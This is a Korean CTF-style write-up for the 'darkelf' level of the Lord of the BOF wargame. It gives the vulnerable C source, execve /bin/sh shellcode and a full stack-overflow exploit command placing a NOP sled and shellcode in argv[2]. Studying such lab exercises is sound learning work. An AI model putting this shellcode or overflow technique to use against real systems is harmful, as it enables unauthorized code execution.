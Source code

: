 ```yaml
---
layout: post
title:  "[LOB]Level06. darkelf"
subtitle:   "[LOB]wolfman → darkelf"
categories: writeup
tags: lob darkelf level06

---
```


# wolfman → darkelf

## keyword : check length of argv[1] + egghunter + bufferhunter

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);
}
```



------



### 0x01. Analysis



argv[1]의 크기가 48보다 크면 안된다.

해당 문제 argv[1]의 크기를 제한하고 있으니 argv[2]에 넣으면 끝 아닌가? 😏



------



### 0x02. Exploit



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

argv[2]에 NOP슬라이드와 쉘코드를 넣기 위해 core덤프를 통해 해당 주소를 구해오자.



<img src="/assets/img/writeup/lob/06.darkelf/image-20180829014308881.png" width="700px">



<img src="/assets/img/writeup/lob/06.darkelf/image-20180829015830365.png" width="600px">

argv[2]의 주소는 0xbffffbde로 확인되었다.



<img src="/assets/img/writeup/lob/06.darkelf/image-20180829014955949.png" width="700px">



```
./darkelf `python -c 'print "A"*44+"\xde\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```



**darkelf / kernel crashed**